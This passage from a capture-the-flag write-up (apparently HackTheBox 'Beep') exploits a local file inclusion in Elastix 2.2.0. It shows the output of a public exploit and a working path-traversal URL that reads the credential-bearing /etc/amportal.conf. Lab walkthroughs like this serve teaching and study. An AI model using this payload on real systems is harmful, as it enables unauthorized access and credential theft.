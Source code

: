 ## Exploitation (Elastix 2.2.0 - 'graph.php' Local File Inclusion)

I tried all remote code execution and LFI exploits and eventually ran the [following exploit](https://www.exploit-db.com/exploits/37637):

```
$ ./37637.pl
         Elastix 2.2.0 LFI Exploit
         code author cheki
         0day Elastix 2.2.0
         email: anonymous17hacker{}gmail.com

 Target: https://ip https://10.10.10.7

[-] not successful
```

If an exploit doesn't work, especially after you properly fingerprinted a service's version, I always recommend debugging it to figure out why it failed.
After some troubleshooting, I realized this exploit didn't immediately work because of two conditions:

1. The service on port 443 was using TLS 1.0 which was disabled by default on my Kali's installation of openssl.
2. The exploit code could not verify the TLS certificate presented by the server.

After reading the exploit code, I found that I could simply navigate to `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action` in my browser to verify whether the host was vulnerable to this LFI attack.

![](/assets/images/htb-beep/beep-lfi-exploit-creds.png)
